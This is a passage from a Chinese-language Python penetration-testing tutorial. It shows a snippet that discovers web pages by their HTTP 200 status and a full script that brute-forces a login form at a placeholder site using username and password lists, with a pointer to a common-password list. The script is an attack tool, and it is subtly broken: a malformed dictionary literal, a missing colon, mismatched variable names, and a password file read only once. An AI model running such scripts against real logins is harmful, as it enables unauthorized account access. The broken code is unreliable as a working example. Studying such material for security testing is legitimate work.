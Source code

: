 然后脚本的主要操作是检查给定文件名的网页是否存在，通过检查`HTTP 200`代码并捕获任何不存在页面的错误：

```py
  try:
    request = urllib2.urlopen(url)
    if(request.getcode()==200):
      foundfiles.append(file+"."+extension.strip("."))
    request.close()
  except urllib2.HTTPError, e:
    pass
```

# 暴力破解密码

暴力破解可能不是最优雅的解决方案，但它将自动化可能是一项单调的任务。通过使用自动化，您可以更快地完成任务，或者至少可以让自己有时间同时处理其他事情。

## 准备工作

要使用此方法，您需要一个要测试的用户名列表，还需要一个密码列表。虽然这不是暴力破解的真正定义，但它会减少您要测试的组合数量。

### 注意

如果您没有密码列表可用，网上有许多可用的列表，例如 GitHub 上的前 10000 个最常见密码，链接在[`github.com/neo/discourse_heroku/blob/master/lib/common_passwords/10k-common-passwords.txt`](https://github.com/neo/discourse_heroku/blob/master/lib/common_passwords/10k-common-passwords.txt)。

## 操作步骤…

以下代码显示了如何实现此方法的示例：

```py
#brute force passwords
import sys
import urllib
import urllib2

if len(sys.argv) !=3:
    print "usage: %s userlist passwordlist" % (sys.argv[0])
    sys.exit(0)

filename1=str(sys.argv[1])
filename2=str(sys.argv[2])
userlist = open(filename1,'r')
passwordlist = open(filename2,'r')
url = "http://www.vulnerablesite.com/login.html"
foundusers = []
FailStr="Incorrect User or Password"

for user in userlist:
  for password in passwordlist:
    data = urllib.urlencode({"username="user&"password="password})
    request = urllib2.urlopen(url,data)
    response = request.read()
    if(response.find(FailStr)<0)
      foundcreds.append(user+":"+password)
    request.close()

if len(foundcreds)>0:
  print "Found User and Password combinations:\n"
  for name in foundcreds:
    print name+"\n"
else:
  print "No users found\n"
```
